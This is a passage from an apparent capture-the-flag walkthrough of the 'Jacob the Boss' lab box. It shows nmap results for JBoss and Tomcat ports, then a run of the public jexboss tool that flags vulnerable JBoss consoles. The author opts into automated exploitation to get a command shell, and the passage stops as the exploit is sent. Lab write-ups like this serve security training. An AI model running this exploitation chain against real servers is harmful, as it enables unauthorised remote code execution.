 ~~~
4446/tcp open  java-object Java Object Serialization
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE TRACE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Welcome to JBoss&trade;
8083/tcp open  http        JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
~~~

## Port 80 (DotClear)

A Dotclear blog is running on port 80/tcp. We'll come to this later if no other vulnerability is found.

## Port 8080 (JBOSS)

A JBOSS server is running on that port. Clicking on the "JBoss Web Console" link reveals that the version is 5.0.0. Searching for exploits affecting this version reveals several deserialization flaws, and a tool is available to automate the discovery of vulnerabilities against JBOSS: https://github.com/joaomatosf/jexboss.

Let's download, install, and run it on our Kali machine:

~~~
kali@kali:/data/Jacob_the_Boss/files/jexboss$ python jexboss.py -u http://jacobtheboss.box:8080/
 * --- JexBoss: Jboss verify and EXploitation Tool  --- *
 |  * And others Java Deserialization Vulnerabilities * | 
 |                                                      |
 | @author:  João Filho Matos Figueiredo                |
 | @contact: joaomatosf@gmail.com                       |
 |                                                      |
 | @update: https://github.com/joaomatosf/jexboss       |
 #______________________________________________________#

 @version: 1.2.4

 * Checking for updates in: http://joaomatosf.com/rnp/releases.txt **


 ** Checking Host: http://jacobtheboss.box:8080/ **

 [*] Checking admin-console:                  [ OK ]
 [*] Checking Struts2:                        [ OK ]
 [*] Checking Servlet Deserialization:        [ OK ]
 [*] Checking Application Deserialization:    [ OK ]
 [*] Checking Jenkins:                        [ OK ]
 [*] Checking web-console:                    [ VULNERABLE ]
 [*] Checking jmx-console:                    [ VULNERABLE ]
 [*] Checking JMXInvokerServlet:              [ VULNERABLE ]


 * Do you want to try to run an automated exploitation via "web-console" ?
   If successful, this operation will provide a simple command shell to execute 
   commands on the server..
   Continue only if you have permission!
   yes/NO? yes

 * Sending exploit code to http://jacobtheboss.box:8080/. Please wait...
~~~